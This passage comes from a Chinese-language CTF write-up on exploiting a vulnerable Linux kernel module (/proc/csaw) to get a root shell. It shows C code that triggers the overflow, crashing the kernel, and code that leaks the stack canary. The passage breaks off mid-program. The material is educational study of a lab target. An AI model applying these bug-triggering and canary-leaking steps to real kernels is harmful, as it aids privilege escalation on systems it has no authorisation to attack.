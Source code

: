 我们就可以像之前一样去get root shell啦~

<br>

**0x03 : Poc**

poc的代码很简单，直接触发漏洞就可以，但是这种直接就kernel panic的。



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    char poc[64];
    memset(poc,0x41,64);
    printf("Triger bug:n");
    write(fd,poc,64);
    return 0;
}
```

下面我们写一个dump，可以dump出CANARY的值：



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
   // memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
```